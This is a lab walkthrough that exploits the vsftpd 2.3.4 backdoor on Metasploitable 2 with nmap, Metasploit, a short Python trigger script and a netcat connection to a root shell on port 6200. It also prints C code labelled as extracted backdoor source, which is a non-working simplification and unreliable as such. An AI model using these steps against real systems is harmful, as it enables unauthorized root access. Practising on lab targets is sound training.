 # Exploiting vsftpd 2.3.4 on Metasploitable 2

## 1. Environment Setup

### Requirements:
- **Attacker Machine:** Kali Linux / Parrot OS
- **Target Machine:** Metasploitable 2
- **Tools Used:** `nmap`, `netcat`, `python`, `Metasploit`

### Finding the Target IP
To identify the target's IP address, run:
```bash
sudo netdiscover -r 192.168.1.0/24
```
Or check directly on Metasploitable 2:
```bash
ifconfig
```
Example output:
```
inet addr: 192.168.1.100  Bcast:192.168.1.255  Mask:255.255.255.0
```

## 2. Scanning for Open Ports
Run an `nmap` scan to detect services:
```bash
sudo nmap -sV -p- 192.168.1.100
```
Example output:
```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.3.4
22/tcp   open  ssh        OpenSSH 4.7p1
23/tcp   open  telnet
80/tcp   open  http       Apache 2.2.8
```

## 3. Identifying Vulnerabilities
Search for known exploits for vsftpd 2.3.4:
```bash
searchsploit vsftpd 2.3.4
```
Expected output:
```
vsftpd 2.3.4 - Backdoor Command Execution
```

## 4. Exploiting vsftpd 2.3.4 with Metasploit
1. Start Metasploit:
```bash
msfconsole
```
2. Search for the exploit:
```bash
search vsftpd
```
3. Use the exploit module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
4. Set the target IP:
```bash
set RHOSTS 192.168.1.100
set RPORT 21
```
5. Run the exploit:
```bash
run
```
6. If successful, you will get a remote shell:
```bash
whoami
```
Expected output:
```
root
```

## 5. Exploiting vsftpd 2.3.4 Manually (Python Script)
Instead of using Metasploit, we can manually exploit the vulnerability using Python.

### **Exploit Code:**
```python
import socket

ip = "192.168.1.100"
port = 21

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # Create a TCP socket
    s.connect((ip, port))  # Connect to the target's FTP server
    s.send(b"USER test:)\n")  # Send the malicious USER command
    s.send(b"PASS test\n")  # Send a dummy password to trigger the backdoor
    s.close()  # Close the connection

    print("[+] Exploit sent! Try connecting with netcat:")
    print(f"nc {ip} 6200")  # Inform the user to connect to the shell
except:
    print("[-] Connection failed.")
```

### **Explaining the Code:**
1. **`socket.socket(AF_INET, SOCK_STREAM)`** - Creates a TCP socket for communication.
2. **`s.connect((ip, port))`** - Connects to the FTP server on the target machine.
3. **`s.send(b"USER test:)\n")`** - Sends a crafted `USER` command containing `:)` which triggers the backdoor.
4. **`s.send(b"PASS test\n")`** - Sends a dummy password to complete the authentication.
5. **`s.close()`** - Closes the connection to allow the exploit to take effect.
6. **The exploit opens a shell on port 6200, and we use `nc` (Netcat) to connect manually.**

### **Execute the Exploit:**
```bash
python3 exploit_vsftpd.py
```

### **Connect to the Backdoor Shell:**
```bash
nc 192.168.1.100 6200
whoami
```
Expected output:
```
root
```

## 6. Understanding the Exploit
### **Vulnerability Type:**
- **Backdoor RCE (Remote Code Execution)**
- **CVE:** [CVE-2011-2523](https://www.cvedetails.com/cve/CVE-2011-2523/)

### **How the Exploit Works:**
1. The vulnerable **vsftpd 2.3.4** server has a hidden backdoor.
2. Sending `USER test:)` activates the backdoor, opening a shell on **port 6200**.
3. We connect to **port 6200** via `nc` and gain root access.

### **Extracted Malicious Code in vsftpd 2.3.4:**
```c
if (strstr(user_input, ":)")) {
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = INADDR_ANY;
    serv_addr.sin_port = htons(6200);
    bind(sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr));
    listen(sock, 1);
    accept(sock, NULL, NULL);
    execl("/bin/sh", "sh", NULL);
}
```
This creates a **hidden shell listener** on port 6200.

## 7. Conclusion
✅ Successfully exploited vsftpd 2.3.4 using both Metasploit and a Python script.
✅ Gained root access on Metasploitable 2.
✅ Learned how backdoor vulnerabilities can be inserted into software.

## 8. Next Steps
- Privilege Escalation on Metasploitable 2
- Automating the exploitation process
- Exploring other vulnerable services on Metasploitable 2

📌 **Ready for the next step?** 🚀

